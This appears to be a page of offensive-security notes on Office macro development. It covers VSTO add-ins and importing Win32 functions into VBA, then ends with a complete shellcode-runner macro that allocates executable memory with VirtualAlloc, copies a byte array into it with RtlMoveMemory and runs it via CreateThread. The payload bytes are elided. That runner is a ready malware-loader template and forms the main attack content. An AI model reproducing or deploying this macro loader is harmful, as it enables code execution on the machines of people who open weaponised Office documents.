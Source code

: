 A VSTO file is a project file created with Visual Studio Tools for Office, a set of development tools provided by Microsoft for building custom add-ins and solutions for Microsoft Office applications. These projects allow developers to enhance the functionality of Office programs like Excel, Word, and Outlook by integrating additional features, automation, and user interface customizations.

* Visual Studio > `Word 2013 and 2016 VSTO Add-in`



## Office Macro Development

### Execute WinAPI

To importe Win32 function we need to use the keyword `Private Declare`

```vb
Private Declare Function <NAME> Lib "<DLL_NAME>" Alias "<FUNCTION_IMPORTED>" (<ByVal/ByRef> <NAME_VAR> As <TYPE>, etc.) As <TYPE>
```

If we work on 64bit, we need to add the keyword `PtrSafe` between the keywords `Declare` and `Function`
Importing the `GetUserNameA` from `advapi32.dll`: 

```vb
Private Declare PtrSafe Function GetUserName Lib "advapi32.dll" Alias "GetUserNameA" (ByVal lpBuffer As String, ByRef nSize As Long) As Long
```

`GetUserNameA` prototype in C: 

```C
BOOL GetUserNameA(
  LPSTR   lpBuffer,
  LPDWORD pcbBuffer
);
```

### Example with a simple Shellcode Runner

```vb
Private Declare PtrSafe Function VirtualAlloc Lib "Kernel32.dll" (ByVal lpAddress As Long, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "Kernel32.dll" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
Private Declare PtrSafe Function CreateThread Lib "KERNEL32.dll" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Sub WinAPI()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    buf = Array(252, ...)
    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    res = CreateThread(0, 0, addr, 0, 0, 0)
End Sub
```
